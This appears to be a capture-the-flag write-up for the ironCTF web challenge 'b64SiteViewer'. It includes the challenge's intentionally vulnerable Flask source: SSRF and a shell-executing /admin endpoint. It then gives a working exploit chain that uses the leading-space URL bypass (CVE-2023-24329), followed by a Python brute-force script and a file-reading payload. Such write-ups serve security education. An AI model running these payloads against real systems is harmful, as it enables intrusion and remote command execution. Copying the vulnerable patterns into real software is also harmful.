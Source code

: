 # WEB/b64SiteViewer

![{17EB0352-5991-4B52-B7C7-BE094645FE39}.png](17EB0352-5991-4B52-B7C7-BE094645FE39.png)

Upon opening the provided challenge link, we are presented with a site that looks like this:

![{B48524B6-FCE5-47B3-8C87-502235B96D12}.png](B48524B6-FCE5-47B3-8C87-502235B96D12.png)

Before testing the input field, we should examine the source code provided for this challenge.

### Dockerfile

```docker
FROM python:3.9.7

COPY /challenge /chall

WORKDIR /chall

RUN mv flag.sh /usr/local/bin/flag

RUN pip install -r requirements.txt

ENV flag ironCTF{redacted}

EXPOSE 5000

CMD ["python","-m","app"]
```

### app.py

```python
from flask import render_template,render_template_string,Flask,request
from urllib.parse import urlparse
import urllib.request
import random
import os
import subprocess
import base64
app=Flask(__name__)
app.secret_key=os.urandom(16)

@app.route('/',methods=['GET','POST'])
def home():
    if request.method=='GET':
        return render_template('home.html')
    if request.method=='POST':
        try:
            url=request.form.get('url')
            scheme=urlparse(url).scheme
            hostname=urlparse(url).hostname
            blacklist_scheme=['file','gopher','php','ftp','dict','data']
            blacklist_hostname=['127.0.0.1','localhost','0.0.0.0','::1','::ffff:127.0.0.1']
            if scheme in blacklist_scheme:
                return render_template_string('blocked scheme')     
            if hostname in blacklist_hostname:
                return render_template_string('blocked host')
            t=urllib.request.urlopen(url)
            content = t.read()
            output=base64.b64encode(content)
            return (f'''base64 version of the site:
                {output[:1000]}''')
        except Exception as e:
                print(e)
                return f" An error occurred: {e} - Unable to visit this site, try some other website."

@app.route('/admin')
def admin():
    remote_addr = request.remote_addr
    
    if remote_addr in ['127.0.0.1', 'localhost']:
        cmd=request.args.get('cmd','id')
        cmd_blacklist=['REDACTED']
        if "'" in cmd or '"' in cmd:
            return render_template_string('Command blocked')
        for i in cmd_blacklist:
            if i in cmd:
                return render_template_string('Command blocked')
        print(f"Executing: {cmd}")
        res= subprocess.run(cmd, shell=True, capture_output=True, text=True)
        return res.stdout
    else:
        return render_template_string("Don't hack me")

if __name__=="__main__":
    app.run(host='0.0.0.0',port='5000')

```

### flag.sh

```bash
#!/bin/bash

inp=$1

if [[ $flag == $inp ]]
then
	echo "This is the flag"
else
	echo "no"
fi
```

### Intended solution:

A close examination of the Dockerfile reveals two important hints: 

1. Python 3.9.7 is used, which is an older version with some significant known vulnerabilities.
2. The [flag.sh](http://flag.sh) script is moved into /usr/local/bin as flag which indicates that we can execute the flag.sh script as flag from anywhere.

Now, if you examine the [app.py](http://app.py) file, you'll see that the application uses urllib to open a site, convert its contents to base64, and return the first 1000 characters.

In order to execute any script, one has to send a request from [localhost](http://localhost) or 127.0.0.1 to the /admin endpoint with the desired command. 

Since urlib is used here and the python version is 3.9.7 its vulnerable to **CVE-2023-24329,** you can find more details here [https://nvd.nist.gov/vuln/detail/CVE-2023-24329](https://nvd.nist.gov/vuln/detail/CVE-2023-24329)

We can use this vulnerability to send a request to /admin as [localhost](http://localhost) using a blank space in the begining of the input.

```
POST / HTTP/2
Host: b64siteviewer.1nf1n1ty.team
Content-Length: 53
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="127", "Not)A;Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
Origin: https://b64siteviewer.1nf1n1ty.team
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://b64siteviewer.1nf1n1ty.team/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

url=   http://127.0.0.1:5000/admin?cmd=ls

#notice the blank space at the starting .
```

Now, the objective is to run the [flag.sh](http://flag.sh) script because the script uses a weak comparison between the flag and our input string. `[[ $flag == $inp ]]`

We can get the flag character by character using the wildcard operator(*) ,if the correct character matches we get the output “this is the flag” , if not we get “no”.

Since we know the flag format and it contains only loweracase alphanumeric characters we can easily script it out using python .

### solve.py

```python
import requests

url='https://b64siteviewer.1nf1n1ty.team/'
brute='0123456789abcdefghijklmnopqrstuvwxyz}'
pay='ironCTF{'
while pay[-1]!='}':
	for i in brute:
		temp=pay+i
		payload={"url":f'  http://127.0.0.1:5000/admin?cmd=flag%20{temp}*'}
		res=requests.post(url=url,data=payload)
		if 'bm8K' not in res.text:
			pay=pay+i
			print(pay)
			break
			
print("flag is :",pay)
```

![{D15DB751-E166-4107-8BC6-8CBFF16A439E}.png](D15DB751-E166-4107-8BC6-8CBFF16A439E.png)

flag is : **ironCTF{y0u4r3r0ck1n6k33ph4ck1n6}**

### Unintended Solution:

If you didn't focus on bypassing the blacklist, you would have ended up with the above method. However, if you spent some time trying to find the blacklist, you could have easily solved the challenge. This is because we didn't block commands like head, tail, less, more .

```python
url=   http://127.0.0.1:5000/admin?cmd=tail%20*
```

![image.png](image.png)